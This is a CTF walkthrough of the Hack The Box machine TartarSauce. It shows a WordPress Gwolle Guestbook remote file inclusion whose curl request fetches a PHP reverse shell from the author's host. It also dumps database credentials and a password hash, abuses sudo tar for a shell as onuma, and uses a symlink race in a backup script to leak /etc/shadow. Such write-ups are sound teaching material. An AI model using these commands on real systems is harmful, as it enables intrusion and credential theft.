## Overview

TartarSauce is an Ubuntu box that was hosting a couple different websites on Apache. Initially I found a robots.txt file that lead me to a site running Monstra but was a dead end. Some additional enumeration uncovered that a wordpress site was also running. Using a tool called wpscan I identified a vulnerable plugin that made the server vulnerable to Remote File Inclusion (RFI) which I exploited to get shell as www-data.  This account had sudo rights to run tar as user onuma, this was abused to spawn a shell as onuma. I found that a shell script was running every 5 minutes that backed up the /var/www/html directory. The script was exploited to reveal the contents of /etc/shadow file as a non-privileged user.

## Enumeration

**Software**
* Ubuntu 16.04.4 LTS
* Sudo 1.8.16
* Apache 2.4.18
* Monstra 3.0.4
* Wordpress 4.9.4

**Port Scan**
```
nmap -A -sT -v -p- 10.10.10.88 -oN ~/boxes/tartarsauce/_full_tcp_nmap.txt
```
80/tcp - http

**Gobuster**

```
gobuster dir -u http://10.10.10.88 -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```

* /index.html
* /webservices


**Nikto**

```
nikto -h 10.10.10.88
```
```
- Nikto v2.1.6
---------------------------------------------------------------------------
+ Target IP:          10.10.10.88
+ Target Hostname:    10.10.10.88
+ Target Port:        80
+ Start Time:         2020-06-18 20:11:23 (GMT-4)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ The anti-clickjacking X-Frame-Options header is not present.
+ The X-XSS-Protection header is not defined. This header can hint to the user agent to protect against some forms of XSS
+ The X-Content-Type-Options header is not set. This could allow the user agent to render the content of the site in a different fashion to the MIME type
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ Cookie PHPSESSID created without the httponly flag
+ Entry '/webservices/monstra-3.0.4/' in robots.txt returned a non-forbidden or redirect HTTP code (200)
+ "robots.txt" contains 5 entries which should be manually viewed.
+ Apache/2.4.18 appears to be outdated (current is at least Apache/2.4.37). Apache 2.2.34 is the EOL for the 2.x branch.
+ Server may leak inodes via ETags, header found with file /, inode: 2a0e, size: 565becf5ff08d, mtime: gzip
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ OSVDB-3233: /icons/README: Apache default file found.
```


## Steps (user)

I started by browsing to http://10.10.10.88 and was brought to a page containing an bottle of tartar sauce done in ascii. The page or the source did not contain any useful information.



Reviewing the Nikto results showed references to robots.txt. 



Checking through each of the results in robots.txt, /webservices/monstra-3.0.4/ is the only url that worked.




Monstra seemed to be a dead end so I ran some additional gobuster scans on the /webservices folder and found the folder /wp.

```
gobuster dir -u http://10.10.10.88/webservices -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -x php,html -t 40
```

* /wp

Wordpress provides the ability to install plugins to extend the functionality of the site which are very commonly exploited. I used a tool called wpscan to enumerate the site for all plugins in agressive mode.

```
wpscan --url http://10.10.10.88/webservices/wp/ --enumerate ap --plugins-detection aggressive 
```



The scan found 3 plugins, akismet (spam protection), brute-force-login-protection (self-explanatory), and gwolle-db. A search for gwolle-db in seachsploit turned up one result. The exploit was for Gwolle Guestbook v1.5.4 and wpscan reported the version as v2.3.10.  After reviewing the exploit I decided to proceed anyway because the exploit was straight forward and easy to rule out if it didn't work. 




The exploit works by taking advantage of a get parameter that is not properly sanitized before being used in a PHP require() function. This allows an attacker to include a remote file and in my case it will be a php reverse shell.



I copied a reverse php shell to my working directory, renaming it to wp-load.php as per 38861, and updated the IP and Port.

```
cp ~/tools/webshells/php/php-reverse-shell.php wp-load.php
```

I set up a python http server to host the file and started a netcat listner (nc -lvnp 4200)

```
sudo python3 -m http.server 80
```

Curl was run specifying the URL for my box for the abspath parameter and I received a shell as www-data.

```
curl -X GET http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.14.21/
```



I found out why this worked after looking at the readme.txt for gwolle-db






I upgraded to a fully functioning shell by running the following commands.

```
python -c 'import pty;pty.spawn('/bin/bash')'
CTRL+Z
stty raw -echo
fg <enter><enter>
export SHELL=/bin/bash
export TERM=xterm-color
```

Looking around in /var/www/html/webservices/wp I found a file called wp-config.php that contained some database credentials. **wpuser:w0rdpr3$$d@t@b@$3@cc3$$**



The credentials were used to connect to the mysql database

```
mysql -u wpuser -p
```



I selected databse wp (use wp;), listed the tables (show tables;), and selected everything from wp_users (select * from wp_users;). I found the hash for user wpadmin



```
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
| ID | user_login | user_pass                          | user_nicename | user_email         | user_url | user_registered     | user_activation_key | user_status | display_name |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+
|  1 | wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |          | 2018-02-09 20:49:26 |                     |           0 | wpadmin      |
+----+------------+------------------------------------+---------------+--------------------+----------+---------------------+---------------------+-------------+--------------+

```

hash-identifier was used to identify the hash: MD5



I grepped the hashcat help to determine which mode to use - 400 | Wordpress (MD5)

```
hashcat -h | grep -i md5
```



Hashcat was run using mode 400, specifying the rockyou wordlist. I was not able to crack the password which lead me to believe this was a rabbit hole so I moved on.

```
hashcat -m 400 -a 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```

Running sudo -l as user www-data shows that www-data could run the following commands as user onuma with no password: /bin/tar. 



Searching for tar on [gtfobins](https://gtfobins.github.io/gtfobins/tar/) shows a command I could use

```
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```



Since I could only run commands as user enuma, I had to add "-u onuma" to the comand

```
/usr/bin/sudo -u onuma /bin/tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

I now had shell as onuma



## Steps (root/system)

Reviewing system processes running as root I noticed an unusual process



Reviewing /var/sbin/backuperer shows that it's a shell script.

```
#-------------------------------------------------------------------------------------
# backuperer ver 1.0.2 - by ȜӎŗgͷͼȜ
# ONUMA Dev auto backup program
# This tool will keep our webapp backed up incase another skiddie defaces us again.
# We will be able to quickly restore from a backup in seconds ;P
#-------------------------------------------------------------------------------------

# Set Vars Here
basedir=/var/www/html
bkpdir=/var/backups
tmpdir=/var/tmp
testmsg=$bkpdir/onuma_backup_test.txt
errormsg=$bkpdir/onuma_backup_error.txt
tmpfile=$tmpdir/.$(/usr/bin/head -c100 /dev/urandom |sha1sum|cut -d' ' -f1)
check=$tmpdir/check

# formatting
printbdr()
{
    for n in $(seq 72);
    do /usr/bin/printf $"-";
    done
}
bdr=$(printbdr)

# Added a test file to let us see when the last backup was run
/usr/bin/printf $"$bdr\nAuto backup backuperer backup last ran at : $(/bin/date)\n$bdr\n" > $testmsg

# Cleanup from last time.
/bin/rm -rf $tmpdir/.* $check

# Backup onuma website dev files.
/usr/bin/sudo -u onuma /bin/tar -zcvf $tmpfile $basedir &

# Added delay to wait for backup to complete if large files get added.
/bin/sleep 30

# Test the backup integrity
integrity_chk()
{
    /usr/bin/diff -r $basedir $check$basedir
}

/bin/mkdir $check
/bin/tar -zxvf $tmpfile -C $check
if [[ $(integrity_chk) ]]
then
    # Report errors so the dev can investigate the issue.
    /usr/bin/printf $"$bdr\nIntegrity Check Error in backup last ran :  $(/bin/date)\n$bdr\n$tmpfile\n" >> $errormsg
    integrity_chk >> $errormsg
    exit 2
else
    # Clean up and save archive to the bkpdir.
    /bin/mv $tmpfile $bkpdir/onuma-www-dev.bak
    /bin/rm -rf $check .*
    exit 0
fi
```

running 'systemctl list-timers' shows an entry for backuperer.timer



Looking at the file shows that it runs ever 5 minutes



This is how the script works:

* Runs every 5 minutes
* creates random filename in /var/tmp
* does a cleanup of /var/tmp/check folder
* creates a tar file of /var/www/html and outputs to /var/tmp/random-file
* sleeps for 30 seconds
* creates /var/tmp/check folder
* runs tar command to extract /var/tmp/random-file to /var/tmp/check (-C is used to change directory)
* runs integrity check function
  * if a result is generated from the integrity check function (meaning it found a difference between the two directories) write the result of the integrity check to /var/backups/onuma_backup_error.txt, then exit.
  * If there is no result generated from the integrity check function (meaning both directories matched), rename /var/tmp/random-file to /var/backups/onuma-www-dev.bak, remove /var/tmp/check and the random file then exit.


My goal was to force the diff to fail and print the results to the file. 

A test file was created in /var/www/html

```
echo "test" > /var/www/html/file.txt
```

I waited until the /var/tmp/random-file was generated, then removed the original file.txt and created a symbolic link to /etc/shadow. 
```
rm /var/www/html/file.txt
ln -s /etc/shadow /var/www/html/file.txt
```

Because the original file.txt was different from the symbolic linked file.txt, the integrity check failed and printed the differences between the two files to /var/backups/onuma_backup_error.txt. The end result is the contents of /etc/shadow bring printed to a file I had access to read. The same process can be used to get root.txt


